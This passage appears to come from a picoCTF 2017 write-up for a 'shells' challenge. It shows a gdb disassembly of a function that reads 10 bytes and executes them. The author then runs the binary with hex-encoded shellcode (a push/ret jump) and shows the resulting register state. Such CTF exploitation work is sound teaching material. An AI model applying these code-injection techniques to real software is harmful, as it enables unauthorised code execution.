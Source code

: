 ```
   0x0804858e <+46>:	call   0x80483e0 <puts@plt>
   0x08048593 <+51>:	add    esp,0x10
   0x08048596 <+54>:	sub    esp,0xc
   0x08048599 <+57>:	push   0x0
   0x0804859b <+59>:	call   0x8048410 <exit@plt>
   0x080485a0 <+64>:	sub    esp,0x8
   0x080485a3 <+67>:	push   0xa
   0x080485a5 <+69>:	push   0x804873e
   0x080485aa <+74>:	call   0x80483c0 <printf@plt>
   0x080485af <+79>:	add    esp,0x10
   0x080485b2 <+82>:	mov    eax,ds:0x8049a60
   0x080485b7 <+87>:	sub    esp,0xc
   0x080485ba <+90>:	push   eax
   0x080485bb <+91>:	call   0x80483d0 <fflush@plt>
   0x080485c0 <+96>:	add    esp,0x10
   0x080485c3 <+99>:	sub    esp,0x4
   0x080485c6 <+102>:	push   0xa
   0x080485c8 <+104>:	push   DWORD PTR [ebp-0xc]
   0x080485cb <+107>:	push   0x0
   0x080485cd <+109>:	call   0x80483b0 <read@plt>
   0x080485d2 <+114>:	add    esp,0x10
   0x080485d5 <+117>:	mov    DWORD PTR [ebp-0x10],eax
   0x080485d8 <+120>:	cmp    DWORD PTR [ebp-0x10],0x0
   0x080485dc <+124>:	jne    0x80485f8 <vuln+152>
   0x080485de <+126>:	sub    esp,0xc
   0x080485e1 <+129>:	push   0x8048754
   0x080485e6 <+134>:	call   0x80483c0 <printf@plt>
   0x080485eb <+139>:	add    esp,0x10
   0x080485ee <+142>:	sub    esp,0xc
   0x080485f1 <+145>:	push   0x0
   0x080485f3 <+147>:	call   0x8048410 <exit@plt>
   0x080485f8 <+152>:	mov    eax,DWORD PTR [ebp-0xc]
   0x080485fb <+155>:	mov    DWORD PTR [ebp-0x14],eax
   0x080485fe <+158>:	mov    eax,DWORD PTR [ebp-0x14]
   0x08048601 <+161>:	call   eax
   0x08048603 <+163>:	leave  
   0x08048604 <+164>:	ret    
End of assembler dump.
gdb-peda$ break *vuln+158
Breakpoint 1 at 0x80485fe
```

We can break before `call eax` and see if our instruction is inputted correctly. It is important to check because little endian might require the shellcode to be input in reverse order.


```
gdb-peda$ run <<< $(python -c "print '6840850408c3'.decode('hex')")
Starting program: /home/misskanari/fun/ctf/pico2017/PicoCtf2017-Write-up/level2/bin/shells_70/shells <<< $(python -c "print '6840850408c3'.decode('hex')")
My mother told me to never accept things from strangers
How bad could running a couple bytes be though?
Give me 10 bytes:

[----------------------------------registers-----------------------------------]
EAX: 0xf7fd3000 --> 0x4854068 
EBX: 0x0 
ECX: 0xf7fd3000 --> 0x4854068 
EDX: 0xa ('\n')
ESI: 0xf7faa000 --> 0x1b1db0 
EDI: 0xf7faa000 --> 0x1b1db0 
EBP: 0xffffceb8 --> 0xffffcec8 --> 0x0 
ESP: 0xffffcea0 --> 0xf7faa000 --> 0x1b1db0 
EIP: 0x80485fe (<vuln+158>:	mov    eax,DWORD PTR [ebp-0x14])
```